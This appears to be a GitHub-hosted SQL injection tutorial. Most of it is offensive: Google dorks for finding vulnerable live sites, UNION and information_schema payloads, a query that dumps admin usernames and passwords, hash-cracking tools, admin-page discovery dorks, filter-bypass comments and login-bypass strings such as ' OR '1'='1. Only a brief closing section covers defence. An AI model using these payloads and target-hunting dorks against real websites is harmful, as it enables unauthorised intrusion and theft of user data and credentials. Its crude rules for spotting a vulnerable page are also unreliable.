 SQL Injection (ByPass)
Basic Information

SQL Injection (SQLi) is a common vulnerability found in web applications, particularly in database-driven features. It arises from improper handling of user inputs in SQL queries, potentially allowing attackers to manipulate queries to gain unauthorized access to databases or extract sensitive information.

Key Facts:

Target Area: Database sections of websites.

Prevalence: Very high; even small websites with simple features like user registration can be vulnerable.

Hacker Usage: Widely exploited for malicious purposes, ranging from data theft to website defacement.

Goals of Exploitation:

Stealing private user information, such as credit card details.

Obtaining admin credentials for unauthorized access.

Defacing websites by altering content.

Popular SQL Databases:

MySQL

MsSQL

Oracle

MsAccess

Identifying Vulnerability

If the site loads without changes: No vulnerability

If a blank or altered page appears: Potential vulnerability

If specific elements fail to load (e.g., images): Potential vulnerability

Any visible changes in the site's appearance can indicate a vulnerability.

Google Dorks for SQLi Detection

Use the following search queries to identify potential targets:

inurl:News.php?id=

inurl:pages.php?id=

inurl:page.php?id=

inurl:gallery.php?id=

inurl:site.php?id=

inurl:php?id=

inurl:id=

Testing for SQLi Vulnerability

Steps:

Determine Columns:

UNION SELECT 1,2,3,4,5,6,7--

Retrieve Version and Database Name:

SELECT VERSION();
SELECT DATABASE();

Example Targets:

http://example.com/news_more.php?id=47

http://example.com/readnews.php?id=2

Extracting Sensitive Data

Retrieve Table Names:

SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()--

Common table names:

admin

users

administrator

Extract Data from Admin Table:

SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='admin'--

Retrieve user credentials:

SELECT group_concat(username,0x3a,password) FROM admin--

Tools for Cracking Hashes

Hashes like MD5 can be cracked using:

Online Tools:

Hashkiller

MD5 Cracker

CrackStation

Software:

Havij

Kali Linux

Sample Hashes:

167051a218248afe9094ac97e60134e0

6818dc65c95ade5460170bdebe861137

Finding Admin Pages

Use tools like Havij or Google search with queries:

inurl:/admin

inurl:/login

intitle:admin login

intitle:login page

Common CMS Admin Paths:

WordPress: /wp-login.php

Joomla: /administrator

Example:

http://example.com/admin/login.php

SQLi Bypass Techniques

Bypass ORDER BY or GROUP BY:

?id=10' ORDER BY column_number--
?id=10' GROUP BY column_number--

Bypass with Comments:

?id=10 /*!50000SELECT*/ group_concat(table_name)--

Master Password Injection Techniques

' OR '1=1--

' OR ''='

' OR '1'='1

Example Targets:

http://example.com/admin/login.php

Notes for Secure Handling in GitLab:

Always validate and sanitize user inputs.

Use prepared statements and parameterized queries.

Regularly scan for vulnerabilities using tools like Acunetix or OWASP ZAP.

Educate your development team on secure coding practices.

For detailed implementation, refer to the OWASP SQL Injection Prevention Cheat Sheet.

